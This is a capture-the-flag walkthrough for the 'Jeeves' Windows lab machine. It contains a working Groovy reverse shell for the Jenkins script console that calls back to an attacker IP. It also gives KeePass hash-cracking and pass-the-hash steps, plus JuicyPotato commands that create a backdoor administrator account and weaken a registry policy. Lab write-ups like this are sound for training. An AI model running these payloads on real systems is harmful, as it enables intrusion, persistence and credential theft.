# Jeeves

**Difficulty: **<mark style="color:red;">**HARD**</mark>

## Reconnaissance

### Nmap

```java
Nmap scan report for 10.10.10.63
Host is up (0.35s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-03-26T17:29:27
|_  start_date: 2023-03-26T17:21:07
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 40s, deviation: 0s, median: 40s
```

### HTTP - Port 80

<figure><figcaption></figcaption></figure>

Enumerating the port 80 you can see that there is **askjenkins** service.

<figure><figcaption></figcaption></figure>

Here when you search something it throws an error but is an image.

<figure><figcaption></figcaption></figure>

There is just an error.html and nothing else even when you search something.

So, at the first view a think this was a rabbit hole to make us waste our time.

### HTTP Jetty - Port 50000

<figure><figcaption></figcaption></figure>

Starting to Enumerate the http ports by fuzzing their url's.

<figure><figcaption></figcaption></figure>

We found something a **jenkins** server in the port **50000** so, this can be our opportunity to gain a foothold on the machine.

<figure><figcaption></figcaption></figure>

When you enter the **askjeeves** directory you see that we can edit things here.

Time to exploit this : }

### SMB & NetBIOS - Port 445/139

You cannot see any files and vulns here, nothing interesting.

## Exploitation

### HTTP Jetty - Port 50000

To exploit Jenkins using the script console use the following script and change the variables to your IP and so on.

Remember set your **netcat** with the specified port first to get the **cmd shell**.

<figure><figcaption></figcaption></figure>


```groovy
String host="<your-IP>";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```


<figure><figcaption></figcaption></figure>

Here you can see that we gain access to the system.

## Privilege escalation

There are 2 different ways to root the machine.

### Method 1

The first method is to look for in some directories and you will find a kdbx database so, you can download this to start cracking the database of passwords.

<figure><figcaption></figcaption></figure>

To make the crackeable hash use the following commands

```bash
keepass2john CEH.kdbx # Copy the hash and paste it in a file
john -w=<wordlists> hashfile # Use a wordlists to crack the password
```

<figure><figcaption></figcaption></figure>

Once you have the password, open the database with keepassxc and use the cracked password.

You'll see different passwords, but the most interesting is the first one, beacuse we have an NTLMv1 hash and we can use it to try pass the hash with the user administrator and others.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Here we try to pass the hash to the use admin in the machine and fortunately is the hash of the user admin.

So, you can gain a shell using **psexec** to get **nt authority** privileges.

### Method 2

Enumerating the privileges information, we can see that the **SeImpersonatePrivilege** is enable so, we can exploit this using the juicypotato binary.



<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Once we download the binary to the machine, I'll start doing a backdoor user and assigning to it administrator privileges.

```
.\JuicyPotato.exe -t * -p C:\Windows\system32\cmd.exe -a "/c net user papishampoo hacker123#$ /add " -l 1337
```

<figure><figcaption></figcaption></figure>

Now set the administrator group to papishampoo.

```
.\JuicyPotato.exe -t * -p C:\Windows\system32\cmd.exe -a "/c net localgroup Administrators papishampoo /add" -l 1337
```

<figure><figcaption></figcaption></figure>

After those two commands we need to modify it in the windows registry too using the following.

```
.\JuicyPotato.exe -t * -p C:\Windows\system32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -l 1337
```

<figure><figcaption></figcaption></figure>

Now use **crackmapexec** to see if we have the **administrator privileges.**

We can that we pwned as well by doing this.
